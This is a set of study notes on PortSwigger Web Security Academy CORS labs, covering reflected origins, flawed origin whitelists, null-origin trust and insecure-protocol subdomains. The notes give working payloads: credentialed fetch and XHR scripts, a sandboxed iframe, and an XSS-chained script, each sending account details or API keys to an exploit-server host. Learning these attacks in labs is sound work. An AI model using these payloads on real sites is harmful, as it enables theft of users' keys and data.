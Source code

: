 ### Lab: CORS vulnerability with basic origin reflection
Some server may reflect origin in the response. i.e. if the req contains:
```
Origin: http://any.com
```
The response will contain the same origin as allowed if the server is configured to reflect origin:
```
Access-Control-Allow-Origin: http://any.com
```
If you can get user to click on the link that leads to your own website, and your own website contains the following script:
```
<script>
// both ways work

// var req = new XMLHttpRequest();
// req.onload = reqListener;
// req.open('get','https://0a9e001a04a2ac888bbfc28d00bf0063.web-security-academy.net/accountDetails',true);
// req.withCredentials = true;
// req.send();
// 
// function reqListener() {
//     console.log("in resp")
// //	location='//malicious-website.com/log?key='+this.responseText;
//     console.log(this.responseText)
// };

async function req() {
    const res = await fetch("https://vulnerable-website/accountDetails", {
        credentials: 'include',
    })
    const json = await res.text()

    window.location = 'https://your-server/exploit?key='+json
}
req()
</script>
```
Then you can make a request to that another website on behalf of the user

### Errors parsing Origin headers
Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

For example, suppose an application grants access to all domains ending in:
```
normal-website.com
```
An attacker might be able to gain access by registering the domain:
```
hackersnormal-website.com
```
Alternatively, suppose an application grants access to all domains beginning with
```
normal-website.com
```
An attacker might be able to gain access using the domain:
```
normal-website.com.evil-user.net
```

### Whitelisted null origin value
### Lab: CORS vulnerability with trusted null origin
The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the file: protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application. 

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ab8005504188db084705016001f0098.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
       location='https://exploit-0a99002204538de184ea4f6d0136005b.exploit-server.net/exploit?key='+encodeURIComponent(this.responseText);
</script>"></iframe>
```

### Lab: CORS vulnerability with trusted insecure protocols
This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol
To solve the lab retrieve the administrator's API key (`GET /accountDetails` endpoint replies back the API key)

So we need a way of stealing admin's API key.
- The response to /accountDetails contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
- Send the request to Burp Repeater, and resubmit it with the added header Origin: http://subdomain.0a5a00e503089526801a213200ac0073.web-security-academy.net 
(Don't forget `http` or `https`. If you specify: `subdomain.0a5a00e503089526801a213200ac0073.web-security-academy.net` you're not gonna get `Access-Control-Allow-Origin` header in response)
In the response we get:
```bash
Access-Control-Allow-Origin: http://subdomain.0a1e0074045c8af080abd07700fb004c.web-security-academy.net
Access-Control-Allow-Credentials: true
```
- Since the origin is reflected in the Access-Control-Allow-Origin header, it confirms that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.

After looking through the website's html, a subdomain was found (in the check stock req):
```bash
http://stock.labid.web-security-academy.net/?productId=1&storeId=1
```
After playing around with the endpoint we see that the `productID` is vulnerable to XSS.
e.g. if we send:
```bash
GET /?productId=4<script>alert(33)</script>&storeId=1 HTTP/2
Host: stock.0a5a00e503089526801a213200ac0073.web-security-academy.net
```
Here's the response that we get back:
```bash
HTTP/2 400 Bad Request
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 61

<h4>ERROR</h4>Invalid product ID: 4<script>alert(33)</script>
```
In the browser the response from above creates a `<script>` tab and executes js code.

So we try to make the victim make a request to `/accountDetails`, but we do it via subdomain, because we don't want CORS to stand on our way:
```bash
<script>
    document.location="http://stock.0a1e0074045c8af080abd07700fb004c.web-security-academy.net/?productId=4<script>const req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a1e0074045c8af080abd07700fb004c.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a3f00b104618a5b808bcf90016500e8.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

